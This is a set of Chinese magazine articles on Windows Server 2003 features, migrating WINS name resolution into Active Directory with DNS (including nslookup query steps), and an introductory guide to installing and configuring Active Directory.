

#### 终端服务器

在改进 Terminal Server 方面，Windows Server 2003 将使用 RDP 5.2（在 XP 中的 RDP 5.1 的升级）。Windows Server 同样支持 XP 的远程协助功能。这个新的版本将支持文件重定向功能、高色彩支持，分辨率可以达到 1600×1200，带给大家一个更清亮的用户界面。通过 WMI 和组策略提高管理性能，更好的扩展性和一个新的远程桌面客户端，支持远程桌面在一个窗口中运行一个 IE 或者一个 MMC 控制台。XP 用户使用一台基于 Windows Server 2003 的终端服务器，还拥有方便的自动重连功能。

#### 改进的磁盘检查命令

在 Windows Server 2003 中，磁盘检查命令 CHKDSK.exe 的性能比 Windows 2000 提供的版本快 20% 到 30%。

在 Windows 卷（NTFS 或者 FAT 文件系统）上的查错程序提高了可靠性及错误处理能力，以确保程序只能在严重错误发生及用户通过命令行开始错误检测命令时运行。Windows Server 2003 中的 CHKDSK 也可以用于 Windows 2000。

#### 命令行工具

微软在 Windows Server 2003 中提供了大量的命令行管理工具，通过这些程序的使用，管理员可以完成一些在 GUI 方式下较难完成或无法完成的任务。

在 Windows Server 2003 中有一个叫做 Inuse.exe 的程序，它是做什么用的呢？不知道你有没有碰到过这种情况：当你需要替换系统中的某个文件，但系统又提示你该文件正在被使用，无法替换，重新启动后，依然如故。是不是头大了？不用急，有了 Inuse.exe，它可以实现在重新启动的时候替换加载到内存中的文件。

更多更好的命令行小工具，在 Windows Server 2003 中等着你去体验。

#### Reliability Service（可靠性服务）

Windows Server 2003 包含了 Microsoft 可选的可靠性服务，这项技术之前只在微软公司内部使用，以使客户从微软的服务器得到可靠的数据，并且加以分析，并可提供可靠性和实用性报告。

#### 结束语

草草数笔，不可能把 Windows Server 2003 的所有新技术、新特性都描述出来。但是正所谓“管中窥豹，可见一斑”，通过我上面举的几个方面，我想大家应该可以感受到 Windows Server 2003 技术上的巨大创新和安全性方面的极大提高。

据悉，Windows Server 2003 将于 4 月份正式发行，而其中文版也将在 5 月底、6 月初发行。让我们拭目以待吧。

微软的 NetBIOS 是在 20 世纪 80 年代后期引入的，可以用于联网的 MS-DOS 程序。它的接口设计的名称空间是平面结构，这意味着在一个网络内，该名称是唯一确定的。而这些名称是在计算机启动、服务启动或用户登录域的时候，动态在 WINS 服务器中注册的。NetBIOS 可以注册为唯一名称或组名。唯一名称有与之相关的地址，而组名则可有多个映射到名称上的地址。在 Windows 2000 发布之后，NetBIOS 似乎显得有些多余，但为了实现兼容，我们可用 WINS 来提供 NetBIOS 名字解析。出于安全性、稳定性等方面的考虑，应该把 WINS 集成到活动目录中，细致地进行安全部署。

## 活动目录服务中

文／柴天星

## WINS 安全过渡部署

在 Windows 2000 之前，所有基于 MS-DOS 和 Windows 的操作系统都需要 NetBIOS 命名接口来支持网络功能。但是，值得注意的是，NetBIOS 在一开始就没有考虑升级到用于大型网络。在 Windows 2000 发布之后，NetBIOS 命名接口的支持似乎显得多余。例如，使用 Windows 2000 和 UNIX（这种系统不需要 NetBIOS 的命名支持），建立起一种活动目录服务形式的域名系统（DNS）名字空间环境。但是，多数网络仍然需要将要求 NetBIOS 网络名称的老操作系统与运行 Windows 2000 的计算机集成在一起。

对于上述这样尴尬的局面，我们在享受活动目录（Active Directory）带来的各种便利的同时，又不得不为老式的系统提供 NetBIOS 的名字解析，因此，WINS 在一定时间范围内，还在提供着这种混杂系统交互解析。这里提供一种兼容的方式来管理新旧命名系统的管理策略，结构如图 1 所示。

图 1 提供了一种旧名称空间的解决方式。在基于活动目录服务的区域内，为提供 NetBIOS 名字解析单独创建了一个 wins.root.com 的子域林，配置 DNS 服务器为 WINS 服务器的推荐者，这样，把集成 WINS 提供给名称解析服务。

这种做法的优势在于：注册 DNS 名字的 Windows 2000 客户端发送更新到活动目录中的 DNS，进行 FQDN（完全合格域名）解析，而 NT 4.0 和 Windows 2000 客户端也通过 WINS 服务器进行名称解析。

单一 WINS 集成的另一个优点在于：当 DNS 查询使用 WINS 进行解析的计算机名字空间时，所查询的计算机 DNS 名称解析暗示着这种查询方式是在一个集成了 WINS 服务的 DNS 服务区域中进行集成查询的结果。同时，这种集成的方案也阻止了一种混乱状态，即 DNS 查询不同 FQDN，解析成为相同的 WINS 客户名和 IP 地址。这种情况在活动目录的域林中，有多层次子域林并集成多个 WINS 服务时尤其显著。

比如，假想有两个区域，每个区域都配置为 WINS 查询的集成服务，这些区域都是域林的子树：zone1.example.com、zone2.example.com。在这种配置下，一个对名称为 vrhost 的 WINS 客户端可能的 DNS 解析为：vrhost.zone1.example.com、vrhost.zone2.example.com。

这样，我们无法区分此主机是属于活动目录树中的哪一个子域林，造成组织逻辑错误。因此，这里推荐在部署 WINS 服务器的时候，尽可能集成 WINS 名称解析空间到一个独立的子域林，通过 DNS 推荐者的身份进行名字的查询解析，规范活动目录下 WINS 的集成部署。



微软给出以下两点建议：

- （1）如果大部分客户使用 NetBIOS 而你使用 DNS，请考虑在 DNS 服务器上使用 WINS 搜索。如果在 Microsoft DNS 服务上启用 WINS 搜索，则 WINS 用来最终解析那些 DNS 解析没找到的名称。只有 DNS 支持 WINS 正向搜索和 WINS-R 反向搜索记录。如果网络上使用的服务器不支持 DNS，请使用 DNS 管理器，以确保这些 WINS 记录不传播到那些不支持 WINS 搜索的 DNS 服务器。
- （2）如果网络上的绝大部分计算机运行 Windows 2000，请考虑创建一个纯粹的 DNS 环境。

这涉及到开发一个迁移计划，以便让旧的 WINS 客户更新到 Windows 2000。涉及网络名称服务的支持问题通过在网络上使用单一命名和资源定位器服务（如 WINS 和 DNS）而得到简化。

从以上两点参考可以看出网络名称空间的解析，在过渡的方式上出现粗糙的地方。这无疑增加网络管理部署的权衡难度，既要保证原有网络的正常运转，同时需要提出新的衔接方式来提供网络以后的扩容发展。根据上面的建议，我们分两个方面讨论 WINS 在活动目录中的运用价值。

#### 一、原有网络集成

继承旧式网络构架决定了 NetBIOS 结构的名字空间还能运用于网络作业的环境中，因此，在 DNS 服务器集成 WINS 查询功能是这种过渡型网络类型的暂时解决办法。

在 DNS 中，解析 WINS 查询主要通过正向解析和反向解析实现。通过 nslookup 实用工具对 WINS 区域数据库进行正向查询和反向查询的调试，一般可根据查询应答的来源来判断数据是来自 DNS 或者 WINS 数据库中记录，还是来源于 DNS 缓存的记录项目：

- authoritative（来自 DNS 记录区域或 WINS 服务器数据库）
- non-authoritative（数据来自 DNS 服务器执行解析的缓存区域中）

通过设置查询的解析记录类型可以进行正向查询调试和反向查询调试，下面的步骤是查询的简要概述：

```
（1）WINS 服务正向／反向查询：

set qtype=a    （WINS 正向查询）
set qtype=ptr  （WINS-R 反向查询）
```

这两个命令可分别用于设置查询类型，或者在搜索时按照相应主机（A）或指针（PTR）资源记录进行筛选，或者按正向或反向搜索进行筛选。

- （2）根据是否要检查正向或反向搜索的可能 WINS 来源，键入相应的完全合格域名（FQDN）。

例如，如果要跟踪的正向搜索用于域名 `hostA.example.com`，请键入：
`hostA.example.microsoft.com.`

如果要跟踪的反向搜索用于 IP 地址 `192.168.1.2`，请键入：
`192.168.1.2.in-addr.arpa.`

- （3）在查询的响应结果中，注意服务器是权威性（authoritative）还是非权威性（non-authoritative）作出应答，并注意生存时间（TTL）值。
- （4）如果服务器的应答不具有权威性，则说明查询是引用了非本地数据库的缓存区记录。这种查询不具有本地 WINS 或 DNS 数据查询的正确性。检查本区域的数据记录，并对 DNS 或 WINS 数据库做正确配置，直到查询服务器的应答具有权威性。
- （5）在该响应中，注意 TTL 值在第二个查询应答中减少还是与第一个查询应答中指定的 TTL 值保持一致。如果对于授权应答查询 TTL 值减小了，则查询应答的源是 WINS 服务器。

通过以上步骤，可以检测在 DNS 和 WINS 集成环境中因混乱部署而产生的诸如名字解析冲突、域林主机不可见等因集成环境引起的问题。

#### 二、网络环境新部署

对于纯粹的 Windows 2000 平台环境，由于 NetBIOS 名字解析已经不再需要，这时候可以删除网络上的 WINS 服务器。删除 WINS 服务器这一过程叫做“退役”。在决定让网络上的 WINS 退役之前，我们需要考虑两个因素：

- （1）网络上是否有运行较早版本的 Windows 或 Windows NT 计算机。
- （2）企业中的客户计算机是否运行旧的 MS-DOS 或仍需要使用 NetBIOS 名称服务的 Windows 程序，如 NET 命令行实用程序。

如果网络存在上述两个因素之一，则必须在网络上始终使用 WINS，以便与旧的客户及程序兼容。如果可以保证网络不存在以上因素，则可以让网络上使用的 WINS 服务器退役。

一个特定的例子就是 Microsoft Exchange Server 的客户／服务器消息配置，它需要依托 WINS 来提供这种消息的传递名字空间机制。详细信息请使用微软站点上的商业技术支持中心搜索“不需要 NetBIOS 的 Microsoft 应用程序”的主题。

重新设计网络或者准备让 WINS 最后退役时，必须首先完全实现将 DNS 作为网络上已安装和活动的所有 Windows 计算机的主命名服务。有关计划和设计 DNS 网络的详细信息，请参阅微软站点“DNS 的名称空间规划”主题。

在部署 DNS 的名称空间并实施后，WINS 退役过程遵照以下常规次序：

- 1. 重新配置客户计算机，让其不再使用 WINS
  - 重新配置 WINS 客户，让其停止向要删除的 WINS 服务器注册和更新其名称。客户使用 WINS 是根据其 TCP/IP 配置而配置的。通过下面两个方法之一完成：
  - （1）对于被手动配置为使用 TCP/IP 的客户，从客户计算机使用的每个网络连接所配置的 TCP/IP 属性中删除主 WINS 或辅 WINS 服务器的 IP 地址。
  - （2）对于被动态配置为根据 DHCP 服务器使用 TCP/IP 的客户，在 DHCP 服务器上重新配置选项（包括所有的服务器、作用域或客户配置选项），让其不再向客户提供选项代码为 44 的分配。该选项类型用来向客户提供 WINS 服务器 IP 地址列表。

- 2. 配置客户机时，验证 DNS 配置和功能
  - 将 WINS 客户机重新配置为停止注册其名称以及停止使用 WINS 服务器时，在从网络删除 WINS 服务器之前，验证所有客户机都配置了 DNS。客户机在 DNS 中的注册以 TCP/IP 配置为基础。重新配置可以通过以下两种方法之一完成：
  - （1）对于被手动配置为使用 TCP/IP 的客户，在客户计算机使用的每个网络连接所配置的 TCP/IP 属性中添加 DNS 服务器的 IP 地址。
  - （2）对于被动态配置为根据 DHCP 服务器使用 TCP/IP 的客户，在 DHCP 服务器上重新配置选项（包括所有的服务器、作用域或客户配置选项），向客户提供选项代码为 6 的分配。该选项类型用来向客户提供 DNS 服务器的 IP 地址列表。

- 3. 关闭 WINS 服务器并将其从网络上删除
  - 客户机重新配置为使用 DNS 代替 WINS 用作名称服务之后，可以开始停止 WINS 服务器。以下 3 点是引用微软站点删除 WINS 服务器所提供的建设性参考意见：
  - （1）删除 WINS 服务器时，很重要的一点是，服务器所拥有的任何记录，只要可能，就在服务器上逻辑删除。可以使用“删除所有者”命令从所有者列表中选择本地服务器，然后选择“向其他服务器复制删除”完成这一任务，这是 WINS 控制台的一个命令操作。
  - （2）如果删除所有者或记录是在另一台 WINS 服务器上执行，考虑使用“复制伙伴属性”中的“阻塞下列所有者的记录”功能，防止已删除的所有者或其记录复制回用来让另一台服务器退役的非所有者服务器。
  - （3）当你的环境仍然需要 WINS 时，许多站点仍然可以从 Windows 2000 提供的 DNS 和 DHCP 功能的实现中受益。

通过以上 3 个步骤，实现了从 WINS 安全迁移到活动目录环境的 DNS 名字服务体系，在这种新旧交替的机制上形成可靠、安全的升级步骤。

虽然 Microsoft Windows 2000 的名字空间环境已经不需要 NetBIOS 名称，但为了保持兼容老的客户端系统和旧式应用程序，仍对其提供默认支持，以方便与需要它们的老操作系统的交互操作。这种支持主要是以两种方式提供的：

- 1. 默认情况下，所有使用 TCP/IP 的 Windows 2000 计算机，都默认对注册和解析 NetBIOS 名称提供客户端支持。这种支持是通过 TCP/IP 上的 NetBIOS（NetBT）来提供的，而且需要时可以手动禁用。
- 2. Windows 2000 Server 通过 Windows Internet 名称服务（WINS）继续提供服务器端支持。WINS 可以用来有效地管理基于 NetBT 的网络。

#### 三、小结

通过 WINS 在活动目录中的安全过渡，可以看出作为 NetBIOS 的命名空间的技术标准已经不能适应网络迅猛发展的需求。小型网络的结构已经逐渐向分层的、多域的混杂型网络发展。这使新的基于活动目录方式的 DNS 能有效地提供一个更具弹性的区域空间，使网络管理更具可规划性和伸缩性，以适应不同组织部门的特定要求。同时本文也给出了这种安全过渡的参考因素和具体步骤。



#### 活动目录

文/chinaboy

## 使用不完全手册

Windows 2000 网络结构是为分布式网络环境量身定做的，而 Windows 2000 活动目录服务是这种网络结构重要而不可分割的组成部分。本文将学习这一集成 Windows 2000 基础架构特性，理解活动目录集中管理网络用户、应用程序和设备的原理。

“活动目录服务（Active Directory Service）”是 Windows 2000 系统最大的突破性和成功之一，它使得 Windows 2000 系统与 Internet 上的各项服务和协议联系更紧密，因为它对目录的命名方式成功地与“域名”的命名方式一致，然后通过 DNS 进行解析，使得与在 Internet 上通过 WINS 解析取得一致的效果。活动目录还具有集中管理 Windows 2000 网络的能力，这意味着可以集中存储公司的信息，管理员可以在一个地点管理整个网络。活动目录支持把管理控制权委派给活动目录对象。这种委派使管理员可以把对象的具体管理权限，如用户或计算机账号，指定给其他的用户和管理员。但是，现在很多管理员甚至还不知道活动目录为何许人也，真是让人痛心！下面，请跟我走进活动目录的怀抱，感受一下它带给我们的方便吧！

活动目录是一个分布式的目录服务，它存储关于网络资源的信息，并使用户或应用程序可以访问这些资源。活动目录使用同样的方式描述、查找、访问、管理和保护这些信息资源；信息可以分散在多台不同的计算机上，保证用户能够快速访问。

#### 一、什么叫活动目录

谈到活动目录，我想很多的人就会想起 DOS 下的“目录”“路径”，但是活动目录不等同于 DOS 下的“目录”“路径”和 Windows 9X 下“文件夹”，它是一个动态的目录，主要包括两个方面：目录和与目录相关的服务。目录是存储各种对象的一个物理上的容器，从静态的角度来理解，活动目录与我们以前所结识的“目录”和“文件夹”没有本质区别，仅仅是一个对象，是一个实体；而目录服务是使目录中所有信息和资源发挥作用的服务。

#### 二、安装活动目录的意义

- 1. **信息的安全性大大增强**

安装活动目录后，信息的安全性完全与活动目录集成，用户授权管理和目录进入控制已经整合在活动目录当中了，而它们都是 Windows 2000 操作系统的关键安全措施。活动目录集中控制用户授权，目录进入控制不仅能够在每一个目录中的对象上定义，而且还能在每一个对象的每个属性上定义，这一点是以前任何系统所不能达到的。除此之外，活动目录还可以提供存储和应用程序作用域的安全策略，提供安全策略的存储和应用范围。

- 2. **具有很强的可伸缩性和很强的可扩展性**

活动目录可包含在一个或多个域，每个域具有一个或多个域控制器，以便调整目录的规模以满足任何网络的需要。多个域可组成为域树，多个域树又可组成为域树林，活动目录也就随着域的伸缩而伸缩，较好地适应了单位网络的变化。目录将其架构和配置信息分发给目录中所有的域控制器，该信息存储在域的第一个域控制器中，并且复制到域中任何其他域控制器。当该目录配置为单个域时，添加域控制器将改变目录的规模，而不影响其他域的管理开销。

Windows 2000 的活动目录具有很强的可扩展性，管理员可以在架构中增加新的对象类，或者给现有的对象类增加新的属性。架构包括可以存储在目录中的每一个对象类的定义和对象类的属性。

##### 3．与 DNS 紧密集成

活动目录使用 DNS 来为服务器目录命名，DNS 是将更容易理解的主机名转换为数字 IP 地址的 Internet 标准服务，利于在 TCP/IP 网络中计算机之间的相互识别和通信。

##### 4．智能的信息复制能力

信息复制为活动目录提供了信息可用性、容错、负载平衡和性能优势，活动目录使用多主机复制，允许在任何域控制器上而不是单个主域控制器上同步更新目录。多主机模式具有更大容错的优点，因为使用多域控制器，即使任何单独的域控制器停止工作，也可继续复制。由于进行了多主机复制，它们将更新目录的单个副本，在域控制器上创建或修改目录信息后，新创建或更改的信息将发送到域中的所有其他域控制器，所以其目录信息是最新的。域控制器需要最新的目录信息，但是要做到高效率，必须把自身的更新限制在只有新建或更改目录信息的时候，以免在网络高峰期进行同步而影响网络速度。通过活动目录就能达到只复制更改的目录信息，而不至于增加域控制器的负荷。

#### 三、安装活动目录

现在我们就来把活动目录请到我们的服务器上吧！因为“活动目录”是 Windows 2000 系统中的一个关键服务，它不是孤立的，它与许多协议和服务有着非常紧密的关系，还涉及到 Windows 2000 系统的系统结构和安全。安装活动目录之前必须要做好充分的准备，否则将无法安装。

在安装活动目录之前，必须保证安装了 Windows 2000 的服务器已经有一台机器安装了 DNS，并且你的网络设置里面必须把 DNS 服务器的 IP 设置成自己的 IP。当然，也可以不是自己的 IP，这就要求所指定的 DNS 服务器上有你的资源记录，并且 DNS 服务支持 SRV 记录和动态更新协议。另外，所有的驱动器都必须是 NTFS。如图 1 所示。

然后你必须要保证你的默认共享是打开的，否则是无法安装的。

另外，你要有一个合法的域名，可以是用于 Internet 的，也可以是用于内网的！

现在就开始安装了。我们在运行对话框中输入 DCPROMO 命令就可以打开安装向导，然后根据提示进行安装就可以了。在安装的时候，数据库和日志文件建议不要安装在 C 盘，要安装在单独的分区，SYSVOL 公用文件夹最好也安装在单独的分区。这里还要注意 SYSVOL 公用文件夹必须安装在 NTFS 分区。如图 2 所示。



图 1



图 2

安装了活动目录的服务器将自动升级成域控制器，服务器的管理员将自动升级成域管理员。在活动目录安装之后，主要有 3 个活动目录的 MMC 控制台，一个是活动目录用户和计算机管理，主要用于实施对域的管理；一个是活动目录的域和域信任关系的管理，主要用于管理多域的关系；还有一个是活动目录的站点管理，可以把域控制器置于不同的站点。一般局域网的范围内，为一个站点，站点内的域控制器之间的复制是自动进行的；站点间的域控制器之间的复制，需要管理员设定，以优化复制流量，提高可伸缩性。

#### 四、活动目录的设置和应用

##### 1．安装活动目录集成区域实现动态安全更新

DNS 和活动目录结合是 Windows 2000 服务器的一个重要特点。在 Windows 2000 的活动目录中，最基本的单位是域（Domain），通过父域和子域的模式将域组织起来形成树；父域和子域之间是完全双向的信任关系，且信任关系传递，其组织结构同 DNS 系统类似。在活动目录中，命名策略基本按照 Internet 标准来实现。遵照 DNS 和 LDAP 3.0 两种标准，活动目录中的域和 DNS 系统中的域采用完全相同的命名方式，即活动目录中的域名就是 DNS 域名。那么，在活动目录中依赖于 DNS 作为定位服务，实现将名字解析为 IP 地址。所以，当我们利用 Windows 2000 构建活动目录时，必须同时安装配置相应的 DNS，无论用户实现 IP 地址解析还是登录验证，都利用 DNS 在活动目录中定位服务器。由于活动目录与 DNS 已经集成在一起，因此在 Windows 2000 中，NetBIOS 名已经逐渐失去意义，与此相对应的 WINS 服务也处于慢慢被淘汰的过程中。

提到 DNS 和活动目录的集成，就不得不提一下活动目录集成区域。DNS 和活动目录集成区域的好处之一就是能够将 DNS 的域和活动目录数据结合起来。活动目录集成区域作为对象储存在活动目录数据库中的主要 DNS 区域。区域是被存储在区域数据文件中的资源记录所定义的域名空间的一部分。区域数据文件存储了用来将主机名转化为 IP 地址以及将 IP 地址转化为主机名所需要的信息。因此，当配置活动目录集成区域时，是在活动目录复制区域数据文件而不是通过 DNS 集成区域传输。

使用活动目录集成区域具有以下优点：

- 消除了主 DNS 服务器作为单个主控而带来的不足。
- 能够进行安全可靠的动态更新。
- 对没有配置为域控制器的 DNS 服务器执行标准区域传输。

可以根据安装向导进行活动目录集成区域的安装，安装完毕可以对它进行设置。

这里我们可以看到活动目录集成区域比标准 DNS 区域多了一个安全选项，可以对它进行安全设置。如图 3 所示。

